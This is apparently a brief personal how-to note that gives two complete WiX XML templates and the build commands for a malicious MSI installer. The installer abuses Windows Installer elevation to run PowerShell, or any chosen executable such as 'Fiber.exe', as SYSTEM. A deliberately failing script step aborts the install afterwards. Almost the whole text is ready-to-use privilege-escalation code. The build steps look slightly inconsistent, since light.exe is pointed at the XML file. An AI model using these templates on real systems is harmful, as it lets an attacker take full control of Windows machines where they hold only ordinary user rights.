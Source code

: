 
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/create-msi-with-wix
https://github.com/wixtoolset/wix3/releases/tag/wix3112rtm

After installing wixtoolset open cmd prompt and go to 

c:\Program Files (x86)\WiX Toolset v3.11\bin



Using the following xml we can start a powershell command as an elevated user

``` xml
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
<Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
<Directory Id="TARGETDIR" Name="SourceDir">
<Directory Id="ProgramFilesFolder">
<Directory Id="INSTALLLOCATION" Name="Example">
<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
</Component>
</Directory>
</Directory>
</Directory>
<Feature Id="DefaultFeature" Level="1">
<ComponentRef Id="ApplicationFiles"/>
</Feature>
<Property Id="MSIUSEREALADMINDETECTION" Value="1" />
<Property Id="cmdline">cmd.exe /C powershell.exe</Property>
<CustomAction Id="Stage1" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
<CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
fail_here
</CustomAction>
<InstallExecuteSequence>
<Custom Action="Stage1" After="InstallInitialize"></Custom>
<Custom Action="Stage2" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
</Product>
</Wix>
```


First we have to run the following command 

``` cmd
C:\Program Files (x86)\WiX Toolset v3.11\bin>candle.exe -out c:\Users\chicken\Desktop\wix "c:\Users\chicken\Desktop\msiinstall.xml"
```

This will create a wix file on our desktop.

Now we will create the MSI wrapper
```
light.exe -out C:\users\chicken\Desktop\mymsi.exe c:\users\chicken\Desktop\msinstall.xml
```



Another Example calling Fiber.exe to elevate. You have to define full path to your executable.

``` xml

<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
<Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
<Directory Id="TARGETDIR" Name="SourceDir">
<Directory Id="ProgramFilesFolder">
<Directory Id="INSTALLLOCATION" Name="Example">
<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
</Component>
</Directory>
</Directory>
</Directory>
<Feature Id="DefaultFeature" Level="1">
<ComponentRef Id="ApplicationFiles"/>
</Feature>
<Property Id="MSIUSEREALADMINDETECTION" Value="1" />
<Property Id="cmdline">cmd.exe /C c:\users\chicken\Desktop\Fiber.exe</Property>
<CustomAction Id="Stage1" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
<CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
fail_here
</CustomAction>
<InstallExecuteSequence>
<Custom Action="Stage1" After="InstallInitialize"></Custom>
<Custom Action="Stage2" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
</Product>
</Wix>
```
